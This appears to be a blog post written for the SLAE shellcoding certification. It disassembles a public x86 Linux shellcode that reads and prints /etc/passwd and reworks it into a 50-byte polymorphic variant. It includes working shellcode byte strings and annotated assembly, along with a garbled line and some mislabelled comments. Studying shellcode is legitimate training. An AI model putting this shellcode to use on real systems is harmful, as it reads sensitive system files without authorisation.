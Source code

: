 # Shellcode - read /etc/passwd

[http://shell-storm.org/shellcode/files/shellcode-842.php](http://shell-storm.org/shellcode/files/shellcode-842.php)

```c
echo -n "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -
```


# Disassembled

I have taken the disassembly and put it in a `.nasm` file format as  a starting point. I also marked some important values in comments.

```assembly
global _start

section .text
_start:
    xor ecx,ecx
    mul ecx
    mov al,0x5      ; open()
    push ecx
    push dword 0x64777373       ; "dwss"
    push dword 0x61702f63       ; "ap/c"
    push dword 0x74652f2f       ; "te//"
    mov ebx,esp
    int 0x80

    xchg eax,ebx
    xchg eax,ecx
    mov al,0x3       ; read()
    xor edx,edx
    mov dx,0xfff
    inc edx
    int 0x80

    xchg eax,edx
    xor eax,eax
    mov al,0x4          ; write()
    mov bl,0x1      ; STDOUT
    int 0x80


    xchg eax,ebx        ; mov 0x1 into eax, exit()
    int 0x80t 0x80

```

# Changes

Since my goal was to reduce the number of bytes for extra credit, I did not change too many things, but the code is polymorphic and differs from the original.

First, I just changed the string that is pushed to the stack from `//etc/passwd` to `/etc//passwd`.

```assembly
; push dword 0x61702f63       ; "ap/c"
; push dword 0x74652f2f       ; "te//"
push dword 0x61702f2f       ; "ap/c"
push dword 0x6374652f       ; "te//"
```

I then removed the `xor` to clear `edx` as it should have been cleraed from the previous `xor ecx, ecx; mul ecx` instructions. This saves me two bytes from the original shellcode in total length.

```assembly
; xor edx,edx       
; edx is already cleared from `mul` instruction above 
```

Instead of moving `0xfff` into `dx` and incrementing, I move `0x1001` into `dx` and decrement.

```assembly
; mov dx,0xfff
; inc edx
mov dx, 0x1001
dec edx
```

Here I change an `xor` with a `sub`. This may not work on all operating systems.

```assembly
; xor eax,eax
sub eax, eax
```

I then change an `xchg` to a `mov` instruction for the exit() syscall. Since I have removed 2 bytes from the shellcode up until now, this instruction adds one extra byte from the original and places me one byte less than the original for my final shellcode.


```assembly
; xchg eax,ebx        ; mov 0x1 into eax, exit()
mov al, 0x1
```

# Final Shellcode

```assembly
global _start

section .text
_start:
    xor ecx,ecx
    mul ecx

    mov al,0x5      ; open()
    push ecx
    push dword 0x64777373       ; "dwss"
    ; push dword 0x61702f63       ; "ap/c"
    ; push dword 0x74652f2f       ; "te//"
    push dword 0x61702f2f       ; "ap/c"
    push dword 0x6374652f       ; "te//"
    
    mov ebx,esp
    int 0x80

    xchg eax,ebx
    xchg eax,ecx
    mov al,0x3       ; read()

    ; xor edx,edx       
    ; edx is already cleared from `mul` instruction above 

    ; mov dx,0xfff
    ; inc edx
    mov dx, 0x1001
    dec edx

    int 0x80

    xchg eax,edx

    ; xor eax,eax
    sub eax, eax
    
    mov al,0x4          ; write()
    mov bl,0x1        ; STDOUT
    int 0x80

    ; xchg eax,ebx        ; mov 0x1 into eax, exit()
    mov al, 0x1

    int 0x80
```

Final Shellcode: 

```c
"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\x01\x10\x4a\xcd\x80\x92\x29\xc0\xb0\x04\xb3\x01\xcd\x80\xb0\x01\xcd\x80"
```

Original shellcode length: 51 bytes

My shellcode length: 50 bytes



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: PA-29350

